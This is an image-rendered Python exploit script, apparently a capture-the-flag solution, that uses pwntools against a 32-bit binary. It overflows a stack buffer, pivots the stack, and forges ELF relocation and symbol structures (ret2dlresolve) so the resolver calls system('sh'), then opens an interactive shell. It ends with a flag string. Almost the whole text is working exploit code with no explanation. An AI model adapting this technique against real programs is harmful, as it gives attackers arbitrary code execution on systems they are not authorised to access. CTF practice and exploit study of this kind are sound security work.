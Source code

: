 ```py

io = start()

resolver = 0x8049030
buf = 0x804ca00
leave_ret = 0x08049126
SYMTAB = 0x804820c
STRTAB = 0x80482ec
JMPREL = 0x8048408

buffer = b""
buffer += b"A"*0x408
buffer += p32(buf)
buffer += p32(exe.plt["read"]) + p32(leave_ret) + p32(0) + p32(buf) + p32(0x80) + b'AAAAAAAAAAAA'
print(hex(len(buffer)))

forged_ara = buf + 0x14
rel_offset = forged_ara - JMPREL
elf32_sym = forged_ara + 0x8

align = 0x10 - ((elf32_sym - SYMTAB) % 0x10)

elf32_sym = elf32_sym + align
index_sym = (elf32_sym - SYMTAB) // 0x10

r_info = (index_sym << 8) | 0x7

elf32_rel = p32(exe.got['read']) + p32(r_info)
st_name = (elf32_sym + 0x10) - STRTAB
elf32_sym_struct = p32(st_name) + p32(0) + p32(0) + p32(0x12)


buffer2 = b'AAAA'
buffer2 += p32(resolver)
buffer2 += p32(rel_offset)
buffer2 += b'AAAA'
buffer2 += p32(buf+100)
buffer2 += elf32_rel
buffer2 += b'A' * align
buffer2 += elf32_sym_struct
buffer2 += b"system\x00"
p = (100 - len(buffer2))
buffer2 += b'A' * p
buffer2 += b"sh\x00"
p = (0x80 - len(buffer2))
buffer2 += b"A" * p
pause()
io.send(buffer+buffer2)
#io.send(buffer2)
io.interactive()
# flag{don't_forget_to_take_out_the_grease}
```
